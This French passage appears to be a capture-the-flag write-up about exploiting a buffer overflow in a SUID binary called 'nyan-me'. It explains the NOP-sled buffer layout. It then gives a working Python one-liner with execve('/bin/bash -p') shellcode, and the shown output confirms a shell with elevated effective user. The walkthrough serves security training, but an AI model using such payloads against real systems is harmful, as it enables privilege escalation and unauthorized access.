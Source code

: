 ```
```



> Il est également possible de créer son propre _shellcode_ en précompilant par exemple la fonction désirée sur le même type d'architecture processeur et en extrayant les _opcodes_.

### Structure du tampon

Sur les processeurs de type Intel x86, une instruction particulière permet de faire "glisser" le flot d'exécution du programme : l'_opcode_ `0x90`, ou NOP (pour _no operation_).

> Extrait de la documentation d'Intel :
>
> | CPU architecture     | Instruction Mnemonic | Bytes        | Opcode |
> | -------------------- | -------------------- | ------------ | ------ |
> | Intel x86 CPU family | NOP                  | 1–9 for i686 | 0x90   |

En partant de l'_offset_ récupéré précédemment (soit 258), le code permettant d'exploiter la vulnérabilité peut donc se décomposer comme tel : `200 * nop + shellcode(33) + (58 - len(shellcode)) * nop + addresse(4)`.

> La valeur 200 est arbitraire, l'objectif premier étant de faire tenir le _shellcode_ dans le tampon et de remplir le reste avec des instructions NOP (`0x90`).

### Exploitation

En modélisant ce code avec Python, on constate que le _shell_ intéractif est bien créé :

```sh
gdb -q nyan-me
Reading symbols from nyan-me...done.
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) r  -t `python -c "print(200 * '\x90' + '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80' + 25 *  '\x90' + '\xe8\xdd\xff\xff')"`

Résultat de la commande :
Starting program: /home/nyan-me/nyan-me -t `python -c "print(200 * '\x90' + '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80' + 25 *  '\x90' + '\xe8\xdd\xff\xff')"`
process 816 is executing new program: /bin/bash
```

Afin de pouvoir bénéficier du SUID (_Set User IDentifier_) en super-nyan-me, il est nécessaire de sortir du débogueur (d'où l'intérêt d'initialiser correctement l'environnement avant de commencer à déboguer). On lance ensuite le programme avec le code préparé précédemment :

```sh
nyan-me@3456bab20570:~$ /home/nyan-me/nyan-me  -t `python -c "print(200 * '\x90' + '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80' + 25 *  '\x90' + '\xe8\xdd\xff\xff')"`

bash-4.3$ id
uid=1000(nyan-me) gid=1000(nyan-me) euid=1001(super-nyan-me) groups=1000(nyan-me)

```

